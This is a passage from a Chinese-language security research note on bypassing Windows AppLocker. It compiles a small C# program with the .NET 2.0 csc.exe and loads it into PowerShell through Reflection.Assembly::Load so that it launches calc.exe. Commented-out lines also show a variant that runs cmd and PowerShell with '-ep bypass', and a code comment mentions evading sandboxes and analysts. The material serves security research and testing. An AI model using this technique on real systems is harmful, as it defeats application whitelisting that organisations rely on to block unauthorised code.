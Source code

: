 本次测试对Casey Smith的代码做细微修改

1、新建文件bypass.cs，内容如下：

```
using System;
using System.Collections.Generic;
using System.Text;

public class Program
{
	public static void Main()
	{
		Console.WriteLine("Hey There From Main()");
		//Add any behaviour here to throw off sandbox execution/analysts :)
		
	}
	
}
public class aaa
 {
        public static void bbb()
        {
            System.Diagnostics.Process p = new System.Diagnostics.Process();
            p.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
//            p.StartInfo.FileName = "c:\\windows\\system32\\cmd.exe";
//            p.StartInfo.Arguments = @"/c ""powershell.exe"" -ep bypass -c notepad.exe";   
            p.Start();
        }
}
```

2、使用2.0版本的csc.exe对其编译，生成exe文件

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:bypass.exe bypass.cs
```

3、powershell执行如下代码：

```
$bytes = [System.IO.File]::ReadAllBytes("C:\6\bypass.exe")
[Reflection.Assembly]::Load($bytes)
[aaa]::bbb()
```

成功执行calc.exe，绕过applocker

## 0x04 对比分析
---

### 1、bohops的方法

加载文件CL_LoadAssembly.ps1，位于`C:\windows\diagnostics\system\AERO`
